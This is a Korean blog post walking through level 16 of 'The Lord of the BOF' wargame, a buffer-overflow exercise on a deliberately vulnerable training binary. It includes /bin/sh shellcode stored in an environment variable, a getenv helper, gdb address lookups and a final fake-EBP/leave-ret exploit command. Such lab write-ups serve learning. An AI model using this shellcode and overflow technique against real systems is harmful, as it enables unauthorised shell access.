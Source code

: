 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 16"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level16/1.jpg" | relative_url }}' alt='relative'>  

## 1) assassin/pushing me away 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level16/2.png" | relative_url }}' alt='relative'>  

이전 문제와 비교해보니 달라지는 점은 buffer 배열을 0으로 덮어쓰지 않고, strncpy 함수를 사용해 딱 argv\[1\]에서 48 byte까지만 buffer에 저장합니다.  

그러면 buffer에 &shellcode를 입력하고 SFP에는 buffer의 주소를 넣어주고 RET에는 &leave를 넣어주면 문제를 풀 수 있을 것으로 예상됩니다.  

## 2) shellcode 환경변수에 저장하기  

``` bash 
export EGG=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` c
// getenv.c
#include <stdio.h>
#include <stdlib.h>
int main(void) {
	printf("ADDR: %p\n", getenv("EGG"));
	return 0;
}
```

<img data-action="zoom" src='{{ "assets/lob/level16/3.png" | relative_url }}' alt='relative'>  

shellcode를 담고있는 환경변수는 0xbffffe48 주소에 저장되어 있습니다.  

&shellcode에는 0xbffffe48 입력하면 됩니다. 리틀엔디언 형식이니 페이로드에는 "\x48\xfe\xff\xbf"을 입력하면 됩니다.  

## 3) &leave 확인하기  

<img data-action="zoom" src='{{ "assets/lob/level16/4.png" | relative_url }}' alt='relative'>  

&leave는 0x80484df 주소에 저장되어 있습니다.  

SFP에는 0x80484df 입력하면 됩니다. 리틀엔디언 형식으로 페이로드에 "\xdf\x84\x04\x08"을 입력합니다.  

## 4) buffer 배열 주소 확인하기  

zombie_assassin 프로그램을 실행할 권한이 없으니 zombie_assassin.c 소스파일로 test 파일을 하나 만들었습니다.  
test 파일을 디버깅 프로그램인 gdb로 실행시켜 buffer의 시작 주소를 확인하였습니다.  

``` bash
gcc -o test zombie_assassin.c
```

<img data-action="zoom" src='{{ "assets/lob/level16/5.png" | relative_url }}' alt='relative'>  

buffer의 위치는 0xbffffa30 주소부터 시작합니다. 페이로드를 작성할 때는 리틀엔디언 형식에 맞춰 "\x30\xfa\xff\xbf"으로 입력합니다.  

## 5) 페이로드 입력하여 BOF 일으키기  

``` bash
./zombie_assassin `python -c 'print "\x48\xfe\xff\xbf"*10+"\x30\xfa\xff\xbf"+"\xdf\x84\x04\x08"'`
```

<img data-action="zoom" src='{{ "assets/lob/level16/6.png" | relative_url }}' alt='relative'>  